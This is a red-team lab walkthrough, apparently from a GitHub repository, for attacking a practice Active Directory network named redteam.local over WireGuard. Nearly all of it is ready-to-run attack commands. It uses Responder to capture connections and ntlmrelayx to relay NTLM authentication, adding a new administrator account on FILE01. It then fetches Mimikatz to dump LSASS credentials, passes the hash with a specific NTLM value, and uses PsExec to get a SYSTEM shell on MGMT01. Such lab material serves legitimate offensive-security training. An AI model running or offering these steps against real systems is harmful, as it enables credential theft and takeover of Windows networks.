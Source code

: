 # Start
### Download the ```wg0.conf``` file

### Start the wg0 interface
```
sudo wg-quick up ~/wg0.conf
```

### Stop the wg0 inteface
```
sudo wg-quick down ~/wg0.conf
```

# Attack Path 1

## FILE01 ##
### Detecting two connections to our machine
```
sudo responder -I wg0
```

### Adding a new administrator user to FILE01
```
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py --no-http-server -smb2support -t smb://192.168.0.21 -c 'net user {NewUser} {NewUser Password} /add' -debug
python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py --no-http-server -smb2support -t smb://192.168.0.21 -c 'net localgroup Administrators {NewUser} /add' -debug
```

## MGMT01 ##
### Dump NTLM hashes in LSASS on FILE01
Retrieve Mimikatz from ```http://192.168.0.37``` (PORTAL01 machine) or from your own hosted server (```http://192.168.100.1```)

```
.\mimikatz.exe
    privilege::debug
    sekurlsa::logonpasswords
```

### Login to MGMT01 via PTH
```
.\mimikatz.exe
    privilege::debug
    sekurlsa::pth /user:adm_mgmtserver /domain:redteam.local /ntlm:f66d666905077e4cd476740106a74646

In the newly created window
.\PsExec64.exe \\MGMT01 -i -s cmd.exe
```
